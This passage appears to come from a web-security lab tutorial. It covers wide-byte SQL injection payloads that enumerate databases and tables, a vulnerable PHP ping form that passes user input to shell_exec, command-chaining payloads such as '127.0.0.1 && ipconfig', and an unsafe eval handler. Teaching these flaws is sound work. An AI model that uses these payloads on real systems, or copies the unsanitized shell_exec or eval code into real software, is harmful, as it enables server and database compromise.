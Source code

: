 Test payload: lili%df' or 1=1 #

Test payload: lili%df%27%20or%201=1%23

Burst library payload: lili%df' union select user(),database() #

Burst table payload: lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #



Slightly behind
RCE
The RCE vulnerability allows attackers to directly inject operating system commands or codes into the background server remotely to control the background system. Generally, this kind of vulnerability occurs because the application system needs to provide users with a specified interface for remote command operations from the design

For example, on the web management interface of our common routers, firewalls, intrusion detection devices, etc.

Generally, a web interface for ping operation will be provided to the user. The user inputs the target IP from the web interface. After submission, the background will perform a ping test on the IP address and return the test result. However, if the designer completes the function , without strict security control, it may cause the attacker to submit "unexpected" commands through this interface, so that the background can be executed, thereby controlling the entire background server

exec_"ping"
Server-side core code

if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
     $ip=$_POST['ipaddress'];
// $check=explode('.', $ip); You can split it first, and then check the number to range, the first and fourth digits are 1-255, and the middle two digits are 0-255
     if(stristr(php_uname('s'), 'windows')){
// var_dump(php_uname('s'));
         $result.=shell_exec('ping '.$ip);//Directly splicing variables in without processing
     } else {
         $result.=shell_exec('ping -c 4 '.$ip);
     }
}
exploit

You can splice the commands you want to execute

payload: 127.0.0.1 && ipconfig
payload: 127.0.0.1 & ipconfig
payload: 127.0.0.1 | ipconfig


exec_"eval"
Server-side core code

if(isset($_POST['submit']) && $_POST['txt'] != null){
     if(@!eval($_POST['txt'])){
         $html.="<p>The characters you like are quite strange!</p>";
     }
}
eval(phpcode)
